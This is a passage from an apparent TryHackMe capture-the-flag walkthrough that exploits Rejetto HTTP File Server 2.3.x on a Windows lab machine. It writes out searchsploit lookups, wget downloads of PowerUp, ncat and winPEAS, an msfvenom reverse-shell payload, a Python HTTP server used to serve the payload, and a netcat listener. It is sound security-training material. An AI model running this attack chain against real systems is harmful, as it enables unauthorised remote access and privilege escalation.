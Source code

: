 ```searchsploit 34926 -p```

Now go back to your Netcat listener and you should have a shell.

![whoami](task3_whoami.png)

Finally cd to your Desktop and ```type``` the contents of your root flag.

> What is the root flag?

> Answer: ```type``` the contents of the "root.txt" file located on the Administrators Desktop

![Root](task3_root.png)


## Task 4: Access and Escalation Without Metasploit 

First, I love that THM goes through rooms with and then with out Metasploit, because some clients and exams don't allow for the use of Metasploit. If you get stuck and need a small hint [Hacksploit](https://www.youtube.com/watch?v=BzmljZkgeSs) has a great walkthrough.

{{% notice style="warning" %}}
You will not be able to use THM built in AttackBox for this section. A Python server is needed on port 80 and it conflicts with AttackBox.
{{% /notice %}} 

First you will want to use searchsploit or the exploit database to find your exploit code. I used ```searchsploit Rejetto HTTP File Server 2.3.x``` and then used the -p flag to view the full exploit path. Once you know where it is you can copy the file to a new location. I used exploit.py on my Desktop.

![Searchsploit](task4_exploit.png)

Once downloaded edit the file with your favorite editor (vim, nano, etc) changing the IP and port to your local IP and a free port. I typically use 1234. ```nano exploit.py```

![Edit](task4_exploit_Edit.png)

Then you will want to download the following files to the same location as your exploit.
 - PowerShell PowerUp -``` wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1```
 - Netcat - ```wget https://github.com/andrew-d/static-binaries/blob/0be803093b7d4b627b4d4eddd732e54ac4184b67/binaries/windows/x86/ncat.exe```
 - WinPeas - ```wget https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/blob/a17f91745cafc5fa43a428d766294190c0ff70a1/winPEAS/winPEASexe/binaries/x86/Release/winPEASx86.exe```

Once those three files are downloaded we need to make a new msfvenom shell with the same IP and port you specified in your exploit.

```msfvenom -p windows/shell_reverse_tcp LHOST=YOUR IP LPORT=1234 -e x86/shikata_ga_nai -f exe -o Advanced.exe```

![MSFVenom 2](task4_msfvenom.png)

Now to set up a simple Python server on port 80.

```python3 -m http.server 80```

In a new terminal set up a netcat listener with ```nc -nlvp 1234```

Then in yet another new terminal (this should be your third) we can start the exploit with ```python exploit.py ATTACK IP 8080```

> You will need to run the exploit twice. The first time will pull our netcat binary to the system and the second will execute our payload to gain a callback!
```
